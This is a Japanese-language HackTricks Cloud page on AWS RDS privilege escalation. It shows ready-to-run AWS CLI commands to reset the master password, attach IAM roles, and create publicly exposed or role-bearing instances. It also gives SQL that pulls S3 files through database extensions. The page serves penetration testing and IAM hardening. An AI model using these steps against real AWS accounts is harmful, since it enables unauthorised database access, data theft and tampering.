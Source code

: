 # AWS - RDS 特権昇格

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学びましょう</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローする**
* **ハッキングテクニックを共有するために、** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出する

</details>

## RDS - 関係データベースサービス

RDSに関する詳細情報は次を参照してください:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

この権限を持っていると、攻撃者は**マスターユーザーのパスワードを変更**し、データベース内のログインを変更できます。
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
データベースに**連絡することができる**必要があります（通常、内部ネットワークからのみアクセス可能です）。
{% endhint %}

**潜在的な影響:** データベース内で機密情報を見つける。

### rds-db:connect

[**ドキュメント**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できる可能性があります。

### RDSロールIAM権限の悪用

#### Postgresql（Aurora）

{% hint style="success" %}
**`SELECT datname FROM pg_database;`**を実行して、**`rdsadmin`**というデータベースが見つかった場合、**AWSのPostgreSQLデータベース**にアクセスしていることがわかります。
{% endhint %}

まず、このデータベースが他のAWSサービスにアクセスするために使用されているかどうかを確認できます。インストールされた拡張機能を確認することでこれを確認できます：
```sql
SELECT * FROM pg_extension;
```
もし**`aws_s3`**のようなものを見つけた場合、このデータベースが**S3に対するある種のアクセス**を持っていると推定できます（**`aws_ml`**や**`aws_lambda`**などの他の拡張子もあります）。

また、**`aws rds describe-db-clusters`**を実行する権限がある場合、**`AssociatedRoles`**フィールドでクラスタに**IAMロールがアタッチされているかどうか**を確認できます。もしあれば、そのデータベースが**他のAWSサービスにアクセスするために準備されている**と推定できます。**ロールの名前**（またはロールの**権限**を取得できる場合）に基づいて、データベースがどのような追加アクセス権限を持っているかを**推測**することができます。

さて、**バケット内のファイルを読む**には、フルパスを知る必要があります。次のようにして読むことができます：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
もし**生のAWS資格情報**を持っている場合、それらを使用してS3データにアクセスすることもできます。
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
PostgresqlはS3にアクセスするために**任意のパラメータグループ変数を変更する必要はありません**。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Mysql内で、クエリ**`SELECT User, Host FROM mysql.user;`**を実行し、**`rdsadmin`**というユーザーがいる場合、**AWS RDS mysql db**内にいると推定できます。
{% endhint %}

Mysql内で**`show variables;`**を実行し、**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`**などの変数に値がある場合、データベースがS3データにアクセスする準備が整っていると推定できます。

また、**`aws rds describe-db-clusters`**を実行する権限がある場合、クラスターに**関連付けられたロール**があるかどうかを確認できます（通常、AWSサービスへのアクセスを意味します）。

今、**バケット内のファイルを読む**には、完全なパスを知る必要があります。次のようにして読むことができます：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster`および`iam:PassRole`権限を持つ攻撃者は、**指定されたロールを既存のRDSインスタンスに追加**できます。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更したりする可能性があります。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在的影響**: RDSインスタンス内の機密データへのアクセスやデータへの不正な変更。\
一部のDBは追加の設定が必要な場合があります。たとえば、Mysqlでは、パラメータグループでロールARNを指定する必要があります。

### `rds:CreateDBInstance`

この権限だけで、攻撃者はすでに存在するクラスタ内に**新しいインスタンス**を作成し、**IAMロール**をアタッチすることができます。彼はマスターユーザーパスワードを変更することはできませんが、新しいデータベースインスタンスをインターネットに公開する可能性があります。
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: テスト
{% endhint %}

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、**指定されたロールがアタッチされた新しいRDSインスタンスを作成**することができます。攻撃者はその後、インスタンス内の**機密データにアクセス**したり、データを変更する可能性があります。

{% hint style="warning" %}
アタッチするロール/インスタンスプロファイルのいくつかの要件（[**こちら**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)から）:

* プロファイルはあなたのアカウントに存在している必要があります。
* プロファイルには、Amazon EC2が前提とするIAMロールを持っている必要があります。
* インスタンスプロファイル名と関連するIAMロール名は、接頭辞 `AWSRDSCustom` で始まる必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたは権限のないデータの変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance`および`iam:PassRole`の権限を持つ攻撃者は、**指定されたロールを既存のRDSインスタンスに追加**できます。これにより、攻撃者はインスタンス内の**機密データにアクセス**したり、データを変更したりする可能性があります。

{% hint style="warning" %}
このDBインスタンスはクラスターの外にある必要があります
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスやデータへの不正な変更。

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加**したり、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)で**フォロー**する。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
